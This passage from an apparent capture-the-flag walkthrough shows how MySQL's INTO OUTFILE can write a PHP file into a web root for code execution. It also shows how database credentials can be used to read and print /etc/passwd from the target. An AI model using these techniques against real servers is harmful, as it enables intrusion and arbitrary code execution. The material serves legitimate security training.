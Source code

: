 Another functionality that we can exploit, is the ability to write local files.
Using the following statement, we can write files in any writable directory, as long as the file does not already exist:
```sql
SELECT '$CONTENT' INTO OUTFILE '$FILE_PATH';
```

If we find a writable directory inside of the web server's root directory, we can write a php file and execute arbitrary code by accessing it using an `HTTP` request.

Let's try to find out where the web root is located. An interesting file of known location is the linux user configuration file: `/etc/passwd`.
```bash
./download.sh $(tr '/' ' ' < root.mysql.credentials) "/etc/passwd"

cat files/etc/passwd | sort --numeric-sort --field-separator=: --key=3
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false

ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash

nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
```
The third field corresponds to the user's `id`.
It looks like ids for system users begin at `0` (root) and ids for regular users begin at `1000` (ft_root).
